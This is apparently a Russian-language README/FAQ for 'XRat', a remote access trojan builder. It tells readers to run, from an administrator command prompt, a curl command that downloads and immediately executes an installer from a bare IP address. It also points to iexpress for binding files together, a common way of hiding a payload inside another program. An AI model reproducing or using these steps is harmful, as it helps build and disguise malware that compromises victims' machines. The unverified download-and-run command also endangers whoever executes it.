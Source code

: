 # XRat



# ❓ Частые вопросы

<h2>🔑 Где взять ключ?</h2>
- Здесь: https://ify.ac/1ddw

<h2>👷‍♂️ Как установить билдер и всё необходимое?</h2>
1. Откройте Cmd от имени админа<br>
2. Перейдите в нужную вам папку куда произведётся установка<br>
3. Введите команду <br>
```bash
curl -O "http://95.31.8.49:5005/download/XRatInstaller.exe" && start XRatInstaller.exe
```<br>
4. Делайте всё по инструкции в установщике<br>
5. После откройте папку и там будут лежать файлы<br>
> Builder.exe<br>
> dotnet_rnt.exe<br>
> XRatInstaller.exe<br>

(Потом можно удалить: > dotnet_rnt.exe и XRatInstaller.exe)<br>

6. Вам нужен только билдер<br>
После установки билдер откроется сам<br>
Обновлять также<br>

<h2>📁 Как склеить файлы?</h2><br>
1. Открываем cmd<br>
2. Пишем: iexpress<br>
3. Дальше сами, есть много гайдов в инете<br>


<h2>❗Важное❗</h2><br>
# LINKS<br>
> [THEMES](<https://github.com/UndefinedClear/XRat-themes/tree/main>)<br>
# SCRIPTS<br>
> [Releases](<https://github.com/UndefinedClear/XRat/releases/tag/release>)<br>
# Documentation<br>
> [Go to documentation](<https://avirts-organization.gitbook.io/xrat>)<br>
